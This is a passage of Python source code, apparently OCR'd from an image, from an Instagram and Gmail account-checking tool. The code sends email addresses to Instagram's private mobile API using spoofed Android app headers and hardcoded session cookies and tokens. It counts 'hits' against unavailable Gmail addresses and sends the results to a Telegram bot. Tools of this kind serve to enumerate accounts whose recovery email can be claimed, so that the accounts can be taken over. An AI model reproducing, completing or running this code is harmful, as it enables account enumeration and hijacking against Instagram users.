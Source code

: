 		requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
def bmw(email):
  global bads_email
  try:

    if 'good' == check_gmail(email):
        username,jj=email.split('@')
        info(username,jj)
    else:bads_email+=1
  except:''

def check(email):
  global bads_instgram,hits,bads_email
  try:
    pp=choice('00')
    b = random.randint(5,208)
    bo = f'\x1b[38;5;{b}m'
    bi = random.randint(5,208)
    bos = f'\x1b[38;5;{bi}m'

    if pp == '0':
        headers = {
                        'X-Pigeon-Session-Id': '50cc6861-7036-43b4-802e-fb4282799c60',
        'X-Pigeon-Rawclienttime': '1700251574.982',
        'X-IG-Connection-Speed': '-1kbps',
        'X-IG-Bandwidth-Speed-KBPS': '-1.000',
        'X-IG-Bandwidth-TotalBytes-B': '0',
        'X-IG-Bandwidth-TotalTime-MS': '0',
        'X-Bloks-Version-Id': '009f03b18280bb343b0862d663f31ac80c5fb30dfae9e273e43c63f13a9f31c0',
        'X-IG-Connection-Type': 'WIFI',
        'X-IG-Capabilities': '3brTvw==',
        'X-IG-App-ID': '567067343352427',
        'User-Agent': 'Instagram 100.0.0.17.129 Android (29/10; 420dpi; 1080x2129; samsung; SM-M205F; m20lte; exynos7904; en_GB; 161478664)',
        'Accept-Language': 'en-GB, en-US',
        'Cookie': 'mid=ZVfGvgABAAGoQqa7AY3mgoYBV1nP; csrftoken=9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'Accept-Encoding': 'gzip, deflate',
        'Host': 'i.instagram.com',
        'X-FB-HTTP-Engine': 'Liger',
        'Connection': 'keep-alive',
        'Content-Length': '356',
    }
  

        
        
        
        data = {
        f'signed_body': '0d067c2f86cac2c17d655631c9cec2402012fb0a329bcafb3b1f4c0bb56b1f1f.{"_csrftoken":"9y3N5kLqzialQA7z96AMiyAKLMBWpqVj","adid":"{Lol}","guid":"{Gio}","device_id":"{DvD}","query":"' + email + '"}',
        'ig_sig_key_version': '4',
    }
